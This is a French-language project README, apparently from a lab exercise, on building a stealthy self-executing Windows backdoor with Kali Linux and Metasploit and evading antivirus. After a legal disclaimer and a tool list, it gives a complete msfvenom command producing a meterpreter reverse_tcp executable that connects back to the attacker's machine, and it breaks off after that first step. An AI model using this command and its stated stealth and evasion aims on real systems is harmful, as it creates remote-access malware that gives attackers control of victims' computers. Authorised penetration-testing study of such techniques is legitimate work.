 # Sujet 3 – Backdoor Windows .EXE auto-exécutable + Bypass antivirus (Kali)

Ce projet illustre la création d’un **backdoor Windows** à l’aide de Kali Linux, avec comme objectif :

✅ Générer un fichier `.exe`  
✅ Se connecter automatiquement à la machine Kali à l'exécution  
✅ Masquer le comportement (furtif)  
✅ Contourner les antivirus dans un environnement de test

>  **Avertissement légal** : Ce projet est exclusivement réservé à un usage éducatif dans un **lab de test** sous **autorisation**. Toute utilisation non autorisée constitue une infraction pénale.

---

## Outils nécessaires

- Kali Linux (attaquant)
- Machine Windows (victime – test en VM uniquement)
- Metasploit
- `msfvenom`
---

## Étape 1 – Générer un backdoor `.exe` Windows avec `msfvenom`

Sur Kali :

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP_KALI> LPORT=4444 -f exe -o backdoor.exe

